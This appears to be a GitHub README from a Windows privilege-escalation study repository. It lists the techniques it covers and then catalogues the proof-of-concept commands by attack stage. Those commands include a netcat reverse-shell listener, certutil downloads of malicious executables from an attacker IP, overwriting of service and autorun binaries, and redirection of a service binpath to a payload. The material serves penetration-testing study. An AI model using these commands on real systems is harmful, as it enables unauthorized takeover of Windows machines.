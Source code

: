 *This dirctory contians explanations and walk throughs on the following windows privesc methods*

- Buffer Overflow
- DLL Injection 
- DLL Hijacking 
- Token Manipulation 
- Insecure Files Permission 
- Insecure Folders Permission
- Insecure Service Permission
- Insecure Registery Permission
- Runas
- AlwaysInstallElevated 
- Unquoted Service Paths
- Kernel Exploitation
- Stored Password 
- Runas Admin
- UAC Bypass




## List of Commands Used in the Privilege Escalation PoCs

### 1. Initial Access and Setup
**Use Case**: Commands used to gain initial access to the target system and set up the environment for exploitation, such as establishing a reverse shell or downloading malicious files.

- **Set up a listener on the attacker machine to capture reverse shell connections**:  
  ```bash
  nc -nlvp 2294
  ```
  - Used in "Insecure Service Executables" to listen for incoming connections from the target.

- **Download a malicious file (`esc.exe`, `x.exe`) to the target machine**:  
  ```bash
  certutil -urlcache -split -f http://10.4.106.235/esc.exe
  ```
  ```bash
  certutil -urlcache -split -f http://10.4.106.235/x.exe
  ```
  - Used in "Insecure Service Executables" to download `esc.exe` and `x.exe` for exploitation.

---

### 2. Service and Autorun Enumeration
**Use Case**: Commands used to gather information about services or autorun programs, such as their configuration, privilege level, or binary paths.

- **Query a service to check its configuration and privilege level**:  
  ```bash
  sc qc filepermsvc
  ```
  - Used in "Insecure Service Executables" to confirm `filepermsvc` runs as `LocalSystem`.

  ```bash
  sc qc daclsvc
  ```
  - Used in "Insecure Service Permissions" to confirm `daclsvc` runs as `LocalSystem`.

- **Query the Windows Registry to identify autorun programs**:  
  ```bash
  reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  ```
  - Used in "Insecure Autoruns" to find autorun programs configured to start automatically.

- **Use WMIC to list startup programs and their commands**:  
  ```bash
  wmic startup get caption,command
  ```
  - Used in "Insecure Autoruns" as an alternative method to identify autorun programs.

---

### 3. Permission Analysis
**Use Case**: Commands used to analyze permissions on services or binaries to identify vulnerabilities (e.g., write access for unprivileged users).

- **Check permissions on a service binary**:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
  ```
  - Used in "Insecure Service Executables" to confirm `BUILTIN\Users` has `FILE_ALL_ACCESS`.

- **Check permissions on an autorun binary**:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
  ```
  - Used in "Insecure Autoruns" to confirm the `Everyone` group has write access.

- **Check user permissions on a service**:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  - Used in "Insecure Service Permissions" to confirm the `user` account has `SERVICE_CHANGE_CONFIG` permissions.

---

### 4. File Manipulation
**Use Case**: Commands used to replace legitimate binaries with malicious ones to facilitate privilege escalation.

- **Replace a service binary with a malicious file**:  
  ```bash
  copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
  ```
  ```bash
  copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
  ```
  - Used in "Insecure Service Executables" to replace `filepermservice.exe` with `esc.exe` or `x.exe`.

- **Replace an autorun binary with a malicious file**:  
  ```bash
  copy C:\Users\user\esc.exe "C:\Program Files\Autorun Program\program.exe" /Y
  ```
  - Used in "Insecure Autoruns" to replace `program.exe` with `esc.exe`.

---

### 5. Service Configuration Modification
**Use Case**: Commands used to modify a service's configuration, such as changing its binary path to point to a malicious file.

- **Modify a service's binary path to point to a malicious file**:  
  ```bash
  sc config daclsvc binpath= "\"C:\users\user\esc.exe\""
  ```
  ```bash
  sc config daclsvc binpath= "C:\Users\user\malicious.exe"
  ```
  - Used in "Insecure Service Permissions" to redirect the `daclsvc` service to execute `esc.exe` or `malicious.exe`.

---

### 6. Service Execution
**Use Case**: Commands used to start a service, triggering the execution of the malicious binary and completing the exploit.

- **Start a service to execute the malicious binary**:  
  ```bash
  net start filepermsvc
  ```
  - Used in "Insecure Service Executables" to execute the replaced binary (`esc.exe` or `x.exe`).

  ```bash
  net start daclsvc
  ```
  - Used in "Insecure Service Permissions" to execute the modified binary (`esc.exe`).

---

### Summary of Categories
- **Initial Access and Setup**: Commands to establish a foothold on the target system (`nc`, `certutil`).  
- **Service and Autorun Enumeration**: Commands to identify vulnerable services or autorun programs (`sc qc`, `reg query`, `wmic`).  
- **Permission Analysis**: Commands to verify exploitable permissions (`accesschk`).  
- **File Manipulation**: Commands to replace binaries with malicious files (`copy`).  
- **Service Configuration Modification**: Commands to alter service configurations (`sc config`).  
- **Service Execution**: Commands to trigger the exploit by starting the service (`net start`).

